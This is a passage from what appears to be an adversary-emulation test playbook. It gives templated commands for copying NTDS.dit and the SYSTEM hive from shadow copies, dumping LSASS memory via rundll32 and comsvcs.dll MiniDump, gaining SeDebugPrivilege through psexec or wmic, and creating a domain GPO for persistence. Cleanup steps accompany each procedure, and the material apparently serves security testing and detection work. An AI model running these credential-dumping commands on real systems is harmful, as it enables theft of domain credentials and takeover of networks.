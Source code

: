 ```
PS> mkdir {{ outdir }}
PS> .\ntdscopy.ps1 {{ sys_shadow_number }} {{ ntds_shadow_number }} {{ outdir }}
```

- `sys_shadow_number` is the shadow ID of the shadow containing the SYSTEM registry 
- `ntds_shadow_number` is the shadow ID of the shadow containing the NTDS.dit 
- This script will create two files in the `{{ outdir }}`, `one` and `two`

### Cleanup

- Delete the newly created files: `{{ outdir }}\one` and `{{ outdir }}\two`
- If shadows were created as part of the setup, delete them

## LSASS dumping using comsvcs.dll - via rundll32.exe

Use `rundll32.exe` to call the `MiniDump` export from `comsvcs.dll`

### Prerequisites

- Administrator rights
- SeDebugPrivilege

### Guidance

```
shell> rundll32.exe c:\windows\system32\comsvcs.dll MiniDump {{ lsass_pid }} {{ outpath }} full
```

This command must be run from a shell process that has `SeDebugPrivilege` enabled. 
PowerShell should work to this end. 

You can acquire `SeDebugPrivilege` for `cmd.exe` by:
- launching it as `SYSTEM` via Sysinternals' `PsExec` (`psexec -sid cmd`). 
- using `wmic.exe` to launch a process with all privileges enabled (`wmic.exe /privileges:enable process call create cmd`)
 
Alternatively, you can use this VBScript file from `modexp`: https://modexp.wordpress.com/2019/08/30/minidumpwritedump-via-com-services-dll/ (`cscript procdump.vbs lsass.exe`)

### Cleanup

- Delete the dump file

# Persistence

## GPO Modifications - General guidance

### Guidance

To create and modify a domain GPO via the Group Policy Editor:

1. Log onto domain controller as domain admin
2. Open the Server Manager -> Tools -> Group Policy Management
3. On the left menu -> Expand the forest/domains sections then locate the target domain
4. Expand the target domain and locate the "Group Policy Objects" folder
5. Right-click the folder -> New -> Enter a name 
6. Locate the newly created GPO -> right-click -> GPO Status -> Un-check enabled
7. Edit the GPO's setting(s) as desired
